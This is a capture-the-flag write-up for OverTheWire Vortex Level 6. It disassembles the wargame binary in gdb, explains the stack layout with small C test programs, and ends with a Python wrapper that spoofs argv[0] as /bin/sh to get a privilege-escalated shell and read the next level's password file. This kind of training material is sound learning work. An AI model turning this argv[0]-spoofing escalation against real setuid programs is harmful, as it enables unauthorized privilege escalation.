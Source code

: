 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 6"
---
```


![Logo](/assets/images/vortex6.png)

## Context

For [this level](http://overthewire.org/wargames/vortex/vortex6.html) we have just the binary, not the source code and some reversing tutorials are suggested. First, we'll download it and study it locally with _`gdb`_.
```bash
(gdb) set disassembly-flavor intel
(gdb) disassemble main 
Dump of assembler code for function main:
   0x08048446 <+0>: push   ebp
   0x08048447 <+1>: mov    ebp,esp
   0x08048449 <+3>: and    esp,0xfffffff0
   0x0804844c <+6>: sub    esp,0x10
   0x0804844f <+9>: mov    eax,DWORD PTR [ebp+0x10]
   0x08048452 <+12>: mov    eax,DWORD PTR [eax]
   0x08048454 <+14>: test   eax,eax
   0x08048456 <+16>: je     0x8048465 <main>
   0x08048458 <+18>: mov    eax,DWORD PTR [ebp+0xc]
   0x0804845b <+21>: mov    eax,DWORD PTR [eax]
   0x0804845d <+23>: mov    DWORD PTR [esp],eax
   0x08048460 <+26>: call   0x8048424 <restart>
   0x08048465 <+31>: mov    eax,DWORD PTR [ebp+0x10]
   0x08048468 <+34>: add    eax,0xc
   0x0804846b <+37>: mov    eax,DWORD PTR [eax]
   0x0804846d <+39>: mov    DWORD PTR [esp],eax
   0x08048470 <+42>: call   0x8048354 <printf@plt>
   0x08048475 <+47>: mov    DWORD PTR [esp],0x7325
   0x0804847c <+54>: call   0x8048334 <_exit@plt>
End of assembler dump.
(gdb) disassemble restart 
Dump of assembler code for function restart:
   0x08048424 <+0>: push   ebp
   0x08048425 <+1>: mov    ebp,esp
   0x08048427 <+3>: sub    esp,0x18
   0x0804842a <+6>: mov    DWORD PTR [esp+0x8],0x0
   0x08048432 <+14>: mov    eax,DWORD PTR [ebp+0x8]
   0x08048435 <+17>: mov    DWORD PTR [esp+0x4],eax
   0x08048439 <+21>: mov    eax,DWORD PTR [ebp+0x8]
   0x0804843c <+24>: mov    DWORD PTR [esp],eax
   0x0804843f <+27>: call   0x8048344 @lt;execlp@plt>
   0x08048444 <+32>: leave  
   0x08048445 <+33>: ret    
End of assembler dump.
```

After the function prologue and [alignment of stack pointer to 4-byte boundary](https://stackoverflow.com/questions/4175281/what-does-it-mean-to-align-the-stack), 16 bytes are subtracted from _`ESP`_ to make room for local variables. Throughout the code of _`main`_ function, there are references to 2 locations we need to understand: `_ebp+0x10`_ and _`ebp+0x0c`_. [This article](https://en.wikibooks.org/wiki/X86_Disassembly/Functions_and_Stack_Frames) explains basics about stack frames, while [the next one](http://www.win.tue.nl/~aeb/linux/hh/stack-layout.html) details also the stack layout. The stack layout before calling the main function looks like this:
```
:    :
|    | [ebp + 16] (env - address of env array)
|    | [ebp + 12] (argv - address of argv array)
|    | [ebp + 8]  (argc - number of arguments passed to main)
|    | [ebp + 4]  (return address)
|    | [ebp]      (old ebp value)
|    | [ebp - 4]  (1st local variable)
:    :
```

We can quickly verify this with the following wrapper program, that runs a target program with different arguments. [This thread](https://stackoverflow.com/questions/2114163/reading-a-register-value-into-a-c-variable) shows a way to read registers (_`ebp`_ in our case) with inline assembly from C code compiled with GCC.
```c
#include <stdio .h>
 
int main() {
    register int ebp asm("ebp");    
     
    char **env = *(char***)(ebp + 16);
    char **argv = *(char ***)(ebp + 12);
    int argc = *(int*)(ebp + 8);
     
    printf("[EBP + 16] - First element of env[] array: %s\n", env[0]);
    printf("[EBP + 12] - First element of argv[] array: %s\n", argv[0]); 
    printf("[EBP +  8] - Number of arguments (argc): %d\n", argc);
}
```

And the test wraper: 
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
int main(int argc, char* argv[]) {
 
    char* arg[] = {"ARG0", "ARG1", "ARG2", "ARG3", "ARG4", "ARG5", NULL};
    char* env[] = {"ENV0", "ENV1", "ENV2", "ENV3", NULL};
 
    execve("./layout",arg,env);
}
```

So we have: 
```bash
# gcc layout.c -o layout
# gcc wrap.c -o wrap
# ./wrap 
[EBP + 16] - First element of env[] array: ENV0
[EBP + 12] - First element of argv[] array: ARG0
[EBP +  8] - Number of arguments (argc): 6
``` 

Based on that, we see that the vortex6 binary checks the first environment variable, and if it's not _`NULL`_ it executes the _`restart`_ function with _`argv[0]`_ as parameter. We see that _`reconstruct()`_ function calls _`execlp`_, with first two arguments the value from _`**(ebp+8)`_, and the third one _`NULL`_. When calling restart function, the stack looks like this:
```bash
:    :
|    | [ebp + 12] (2nd argument)
|    | [ebp + 8]  (1st argument)
| RA | [ebp + 4]  (return address)
| FP | [ebp]      (old ebp value)
|    | [ebp - 4]  (1st local variable)
```

So wee see that at _`ebp + 8`_ we have its first argument, which is in fact _`argv[0]`_. Basically the reconstructed function is:
```c
void restart(char *s) {
    execlp(s,s,NULL);
}
```

After reversing the whole functionality, it's easy to exploit the binary using a simple Python wrapper:
```python
import subprocess
 
argv = ['/bin/sh']
 
p = subprocess.Popen(argv, executable = './vortex6.bin')        
p.wait()
```

And tada...
```bash
vortex6@melissa:~$ python /tmp/myl6.py
$ id
uid=5006(vortex6) gid=5006(vortex6) euid=5007(vortex7) groups=5007(vortex7),5006(vortex6)
$ cat /etc/vortex_pass/vortex7
*****
```

